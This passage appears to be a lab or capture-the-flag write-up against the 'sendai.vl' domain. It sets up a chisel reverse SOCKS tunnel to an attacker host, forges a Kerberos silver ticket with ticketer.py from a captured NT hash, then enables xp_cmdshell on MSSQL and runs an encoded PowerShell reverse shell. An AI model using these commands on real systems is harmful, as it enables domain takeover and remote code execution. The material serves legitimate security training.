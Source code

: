 [https://vulndev.io/2022/01/08/kerberos-silver-tickets/](https://vulndev.io/2022/01/08/kerberos-silver-tickets/)

First let's make a socks with chisel :

```bash
# local machine
chisel server -p 9999 --reverse
# target machine
./chisel.exe client 10.8.2.163:9999 R:socks
```
Now let's use ticketer to create a ticket 

```bash
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash '58655C0B90B2492F84FB46FA78C2D96A' -dc-ip dc.sendai.vl Administrator -domain sendai
.vl

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sendai.vl/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
Now export the ticket and use it :

```bash
export KRB5CCNAME='Administrator.ccache'

proxychains -q mssqlclient.py dc.sendai.vl -k

SQL (SENDAI\Administrator  dbo@master)> EXEC master..xp_cmdshell 'whoami'
[-] ERROR(DC\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
So we need to enable 'xp_cmdshell' to have a reverse shell as sqlsvc, given that these accounts often have 'SeImpersonatePrivileges' activated, we can then use Potato to be NT/AUTHORITY

```sql
> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

> SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell "whoami"
-------------
sendai\sqlsvc

NULL

> xp_cmdshell "powershell -e [JAB..AKQA=]"
```
Now let's check the privileges 
